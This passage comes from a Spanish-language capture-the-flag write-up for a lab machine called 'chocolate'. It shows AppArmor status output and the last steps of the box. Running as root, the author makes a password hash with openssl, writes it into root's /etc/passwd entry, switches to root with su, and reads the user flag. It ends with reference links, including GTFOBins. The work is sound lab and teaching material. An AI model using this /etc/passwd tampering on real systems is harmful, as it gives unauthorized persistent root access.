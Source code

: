 ```bash
0 processes are in mixed mode.
0 processes are in kill mode.
```
Observa que ahí está el **binario man** dentro de un perfil restrictivo, es lo que impide que podamos ver los directorios de los usuarios.

Lo que podemos hacer es, cambiar la contraseña del **usuario Root**, suplantándola con una contraseña random usando **openssl**.

Vamos a crear una contraseña random:
```bash
root@chocolate:/home/secretote# openssl passwd hackeado
$1$FhisMkp/$B6KN6GoH3azRt0BmueZMk.
```

Ahora, abre el `/etc/passwd`, elimina la X y pega todo el output del **openssl**:
```bash
root@chocolate:/home/secretote# cat /etc/passwd
root:$1$FhisMkp/$B6KN6GoH3azRt0BmueZMk.:0:0:root:/root:/bin/bash
```
Quedaría así.

Ya solo vuelve a convertirte en el **usuario secretote o bob** o incluso desde otra sesión para entrar al **SSH** y autentícate como **Root**:
```bash
secretote@chocolate:~$ su root
Contraseña: 
root@chocolate:/home/secretote# whoami
root
```
Listo, volvemos a ser **Root**.

Ahora sí, podemos ver la flag del usuario que nos falta:
```bash
root@chocolate:/home/secretote# ls /home/bob
limpieza.sh  user.txt
root@chocolate:/home/secretote# cat /home/bob/user.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://gtfobins.github.io/gtfobins/man/
* https://stackoverflow.com/questions/35469038/how-to-find-out-what-linux-capabilities-a-process-requires-to-work
* https://computernewage.com/2022/09/03/gnu-linux-apparmor-tutorial/


<br>
